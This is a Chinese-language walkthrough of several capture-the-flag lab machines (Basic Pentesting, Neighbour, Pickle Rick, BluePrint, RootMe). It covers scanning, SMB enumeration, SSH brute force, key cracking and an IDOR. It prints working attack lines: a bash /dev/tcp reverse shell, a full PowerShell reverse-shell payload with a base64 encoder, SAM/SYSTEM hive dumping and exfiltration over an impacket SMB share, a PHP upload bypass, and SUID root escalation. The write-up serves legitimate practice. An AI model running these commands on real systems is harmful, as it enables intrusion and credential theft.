在官网安装ovpn的配置文件后，使用kail执行命令即可连接

```
sudo openvpn ~/Downloads/ap-south-1-jwei3156-regular.ovpn
```

## Basic Pentesting

分配ip为`10.49.171.18`

**端口扫描**

```
nmap -sV -sC 10.49.171.18
```

-sV：扫描服务版本

-sC：做初步的侦察



发现了22端口的ssh服务，80端口的web服务，129/445端口的SMB文件共享服务

8009的AJP即tomcat的内部协议，8080的tomcat

其中最危险的是8009 AJP

**AJP**

`Apache JServ Protocol`，是apache和tomcat之间的内部通信协议，而tomcat版本很老，有历史的漏洞`CVE-2020-1938`

先不要直接exp，先查看服务

```
http://10.49.171.18:8080/
```

是tomcat的页面

### gobuster

目录和子域名爆破工具，支持：dir、dns、vhost模式

```
# 基本用法结构
gobuster <模式> -u <目标URL/域名> -w <字典路径> [其他选项]
```

**尝试目录爆破**

```
gobuster dir -u http://10.49.171.18 -w /usr/share/wordlists/dirb/common.txt
```

dir表示目录爆破模式，common.txt是kail自带的目录字典路径



发现了/development目录

尝试访问页面



在txt中，提示k有权限读取/etc/shadow，而且有弱密码，存在structs的2.5.12版本，smb服务被确认

**structs**

apache structs，一个java web框架，有很多rce

### smbclient

**SMB**

SMB是一种网络文件共享协议，允许计算机之间共享文件、打印机和串行端口

运行在tcp/ip协议栈上，通常使用445端口

**smbclient**基本是一个smb的客户端，允许像连接ftp服务器一样连接windows的共享文件夹或samba服务器

```
# -L 用于列出目标共享列表，-N 表示匿名登录（如果对方允许）
smbclient -L //192.168.1.10 -N
# 连接到指定共享，可能需要用户名 (-U)
smbclient //192.168.1.10/backup -U username
```

**samba**

是一个可以让linux/windows系统跨文件和打印机等的共享


先来看SMB服务，尝试匿名访问

```
smbclient -L //10.49.171.18/ -N
```



-L为列出共享目录，-N为尝试匿名连接

列举出了一个匿名目录anonymous（常见）

```
smbclient //10.49.171.18/Anonymous -N
```

进入共享目录



一直提示弱密码，我们先针对用户名进行枚举

### enum4linux

封装了很多samba工具，从windows和samba系统的smb协议中自动化收集各种敏感信息，一次运行就能批量获取主机信息

```
# a表示全部枚举
enum4linux -a 192.168.1.10
# U枚举用户，s列举共享目录
```


```shell
enum4linux 10.49.171.18
```

用户名就是kay和jan，尝试爆破密码

```
hydra -l jan -P passwords.txt ssh://10.49.171.18
```

hydra是密码爆破攻击，支持ftp、smb、ssh等多种协议，-l：指定单个用户名，-P：密码本



ssh连接

```
ssh jan@10.49.171.18
```

进入后，尝试提取，收集信息

```
whoami
id
sudo -l
ls -la
cat /etc/passwd
```

查看历史命令

```
cat ~/.bash_history
```

在其他用户的目录下找到凭据



如果用户持有`id_rsa`就能够直接登录，不需要密码

把私钥复制出来，赋予600权限，权限太宽ssh可能会拒绝连接

直接连接失败，需要破解hash值

```
# 把ssh私钥转换成John能识别的hash格式
ssh2john kay_rsa > hash.txt

# 密码破解工具，使用自带的经典字典破解私钥
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



生成的密钥为beeswax

登录后看到密钥




## Neighbour

这道题需要找其他用户的密钥，应该是水平越权

常规nmap扫描一下，扫描到了80端口，http-cookie-flags显示是PHPSESSID，说明后端使用的是php，使用的是session鉴权

然后尝试访问ip，是一个登录框



页面中有：Use the guest account!，查看源代码，提示：

```
<!-- use guest:guest credentials until registration is fixed. "admin" user account is off limits!!!!! -->
```

尝试弱口令登录



源码中提示`admin account is off limit`，把url中改为`?user=admin`，找到flag




## Pickle Rick

开始还是扫描，查看web，看源码，网页中提示使用burp

源码中提示：`Username: R1ckRul3s`

```
gobuster dir -u http://10.48.184.87 -w /usr/share/wordlists/dirb/common.txt
```

启动目录扫描，找到一个/assets和/robots.txt

robots.txt内容为：`Wubbalubbadubdub`

但是这次使用简单的扫描已经不足了，需要使用更大的字典

```
gobuster dir -u http://10.48.149.145 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

又扫出了login.php和portal.php

进入login.php



进入了一个RCE界面，用户为www-data，但是不允许cat读取文件

直接访问，得到第一个flag`mr. meeseek hair`

访问clue.txt，`Look around the file system for the other ingredient.`

因为是RCE，而且难以读取文件系统，尝试反弹shell，因为是通过vpn通信，需要弹自己的tun0的ip地址

```
nc -lvnp 4444
bash -c 'bash -i >& /dev/tcp/192.168.235.171/4444 0>&1'
```

能够连接自己的终端

找到第二个flag



sudo -l发现不需要密码就能够sudo



```
sudo bash
```

提权后在`/root`目录下，看到第三个flag`fleeb juice`


## BluePrint

尝试nmap扫描，扫到了是windows的机器



这个`osCommerce`是一个开源的电商购物车系统，有RCE漏洞

能够看到有win7系统，而且开放了445端口，容易触发永恒之蓝漏洞

但是专用命令进行扫描，并没有利用成功

```
nmap --script=smb-vuln-ms17-010 10.48.183.50
```

### searchsploit

是Exploit-DB漏洞库的本地命令行接口

```
# 查找漏洞
searchsploit apache 2.4.49
# 对应的脚本拷贝到当前文件夹
searchsploit -m linux/remote/42315.py
# 更新
searchsploit -u
```


尝试查看电商系统的漏洞

```
searchsploit oscommerce 2.3.4
```

把能够RCE的拷贝过来

```
searchsploit -m 50128
```

查看下使用方法，直接尝试RCE



而且是system权限，但是是一个非交互式的shell，需要建立交互式tty

尝试反弹shell，base64编码（base64编码后能够规避特殊符号等，保证顺利运行）：

```python
import base64

cmd = """$c=New-Object System.Net.Sockets.TCPClient('192.168.235.171',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1 | Out-String);$sb2=$sb+'PS '+(pwd).Path+'> ';$send=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($send,0,$send.Length);$s.Flush()};$c.Close()"""

print(base64.b64encode(cmd.encode('utf-16le')).decode())
```

目标靶机执行：

```
powershell -nop -w hidden -enc BASE64内容
```

kail机监听：

```
nc -lvnp 4444
```



执行whoami，结果是`nt authority\system`，是最高权限

之后题目要求提取存储密码的哈希值，windows系统通常存放在系统的`SAM`文件中

- 尝试导出SAM和SYSTEM注册表配置

因为windows本地账号密码的哈希以及用于加密这些哈希的密钥在windows运行期间被系统独占，常规手段无法复制

`reg save`利用了windows自带的备份功能，将注册表hive文件转存到磁盘

```
reg save hklm\sam C:\sam.bak
reg save hklm\system C:\system.bak
```

- 之后想办法传输到kail机器上：

利用impacket包中的`impacket-smbserver`通过python模拟了一个smb服务器

在kail创建一个共享文件夹，开启SMB2协议支持（兼容windows）

```
sudo impacket-smbserver share . -smb2support
```

- 拷贝到共享文件夹

直接利用smb协议通过网络层将文件传到远程共享服务器上，实现内存到网络的直接数据交换

```
copy C:\sam.bak \\192.168.235.171\share\sam.bak
copy C:\system.bak \\192.168.235.171\share\system.bak
```

之后本地就有了



利用kail的`secretsdump.py`提取哈希

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```



找到三个用户的密钥哈希值

哈希值能够在线网站破解：https://crackstation.net/



之后在`C:\Users\Administrator\Desktop\root.txt`内容


## RootMe

先nmap扫描目录，发现服务，之后gobuster扫描目录，扫到/panel为文件上传接口，上传php文件失败

有现成的反弹shell脚本，cp下来用

```
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

但是php后缀的不能用，仅修改Content-type也不行；在包里修改文件后缀名就能够上传，上传的内容在/uploads目录下，访问即可触发反弹shell

查找SUID

```
find / -user root -perm -4000 -print 2>/dev/null
```

发现python在里面，执行python命令就是root

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```




